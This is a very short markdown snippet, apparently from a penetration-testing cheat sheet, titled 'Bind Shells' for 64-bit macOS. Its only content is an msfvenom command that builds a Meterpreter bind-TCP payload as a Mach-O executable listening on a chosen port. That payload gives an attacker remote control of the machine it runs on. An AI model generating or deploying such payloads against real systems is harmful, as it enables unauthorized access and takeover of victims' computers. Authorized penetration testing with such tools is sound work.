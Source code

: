# Bind Shells

1. x86-64 (64-bit) Payloads

`$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o met-x64`